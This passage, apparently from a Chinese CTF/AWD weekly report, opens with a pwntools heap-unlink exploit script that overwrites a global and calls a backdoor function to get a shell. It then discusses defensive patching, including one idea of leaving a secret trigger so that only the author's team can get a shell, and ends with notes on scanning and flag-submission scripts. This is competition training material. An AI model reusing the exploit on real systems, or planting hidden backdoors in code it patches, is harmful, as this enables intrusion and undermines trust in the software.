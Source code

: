 ```python
def itsmygo():
    r.recvuntil(b"Your choice :")
    r.sendline(b"947")

heap_add=0x6020E0

cre_s(0x48,b'a')
cre_s(0x80,b'a')
cre_s(0x80,b'a')

pay1=p64(0)+p64(0x41)+p64(heap_add-0x18)+p64(heap_add-0x10)+b'a'*0x20+p64(0x40)+p64(0x90)
edi_s(0,0x50,pay1)
del_s(1)
edi_s(0,0x20,p64(0)*3+p64(0x6020c0))
edi_s(0,0x8,p64(0x1306))
itsmygo()

r.interactive()
```

可以看到这个脚本写的没什么问题,稍微改改(指加上recvuntil()以解决延迟问题/或者直接加一大堆sleep开始缓慢剑法)应该也能去打线上.

但如果我们想防住这个脚本,并不需要像上面那样去真正修好它.

看到这个mygo了吗?

![mygofix2](C:\Users\POI\Desktop\周报\周报07\mygofix2.png)![mygofix3](C:\Users\POI\Desktop\周报\周报07\mygofix3.png)

好了,修好了.(我是来结束乐队的.jpg)

由于上面的那个解题脚本依赖后门函数获取shell,所以我们只需要把后门函数删了,上面的脚本就拿不到shell了(又是经典的废话环节).虽然这题就算删了后门函数,也能通过修改got表,或者用unsorted_bin_leak泄露libc基址后直接用one_gadget解题,但是别的队伍也拿不到你修完的二进制文件,所以他们也不知道你是怎么修的.只要主办方不要让pwn手吃的太饱,这么修应该也能解决大部分问题.

当然,就算你已经按照正常方法修复了漏洞,也可以把后门函数删了以防万一.最好把`/bin/sh`字符串也给删了,或者把`/bin/sh`改成`cat ./*`之类的来增加别人的血压.

另外这次ISCC听说你修好了自己的服务器会导致你自己也进不去...因为你只能通过打进自己的服务器搭代理去打别人的服务器,而不能直接连接别人的服务器,所以你修复了自己的服务器以后会导致你打不了别人.

我的想法是把堆溢出给修了,但不修后门.再在main中添加一个当v3等于某个值时直接执行mygo的判定,这样只有知道这个值的你才能getshell,而其他人就没法打进来了.

![mygofix5](C:\Users\POI\Desktop\周报\周报07\mygofix4.png)

比如将它修成这样.(没想到IDA居然能把我改过的汇编反编译出来)

我不知道ISCC的网络环境是否允许参赛选手拿到别的队服务器中的二进制文件(我想,就算能也应该是打进去以后才能),如果能的话就当我自作聪明了吧(

#### 5:0109和0111的两次AWD

0109的那次基本就是体验了一下,一开始用命令行ssh死活连不上去,后面是用了梁师傅给的工具才连上自己的服务器拿到pwn的附件.然后稍微熟悉了一下fix的过程(pwn的修就是把编辑好的二进制文件传上去覆盖掉原来的文件).打完之后开始去找以及编写相关的脚本.

0111则是测试了之前写的脚本,结果不尽人意...gpt生成的端口扫描脚本在扫localhost时一切正常,但扫靶机端口就啥也扫不出来.从网上抄的扫ip脚本问题少一点:它的问题主要是每次扫到的ip都会"少一点",9个队我只扫出来七个,其中一个还是我自己.至于我自己写的getflag和上传脚本自动化程度低,需要每隔5分钟手动把两个脚本各跑一次(不过这个问题倒是比较容易解决).错误处理也依靠人工监视(比如某次莫名其妙多了个被转换成字符\\n的换行符,结果叫上去的flag全错了).不过功能上没有大问题,的确能自动攻击ip列表中的靶机,自动上传flag列表中的flag.

